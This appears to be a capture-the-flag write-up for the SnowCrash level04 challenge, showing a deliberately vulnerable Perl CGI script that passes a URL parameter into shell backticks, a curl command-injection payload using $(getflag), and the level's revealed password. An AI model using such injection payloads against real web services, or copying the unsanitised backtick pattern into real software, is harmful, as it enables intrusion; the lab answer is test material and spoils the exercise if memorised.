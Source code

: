 <h1>LEVEL04</h1>


<h4>GETTING STARTED</h4>

When `ls -la` we notice a .pl file. A `.pl` file typically refers to a script written in Perl, a high-level, general-purpose, interpreted, dynamic programming language. P

<h4>INJECTIONS</h4>

```
level04@SnowCrash:~$ strings ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
x(param("x"));
```


I dont have write permission so i cant change the file. It has an address and a port so its a script that is designed to execute as part of a web service, likely meant to interact with HTTP requests. For example : 

```
level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=test
test
```

$(command): This syntax is used for command substitution in shell, which executes the command and substitutes its output. Since the Perl script uses backticks to execute the contents of the x parameter, including $(getflag) within the parameter might lead the server to execute the getflag command. 

`level04@SnowCrash:~$ curl http://localhost:4747/level04.pl?x=$(getflag)` 

Make sure to include single quotes around otherwise the variable will expand before the curl gets executed resulting in running the script as the user level04 instead of flag04.



<details><summary> SOLUTION </summary>
  
* `su level05`

<p align="center">
👑 ne2searoevaevoem4ov4ar8ap 👑
</p>
                                           
</details>

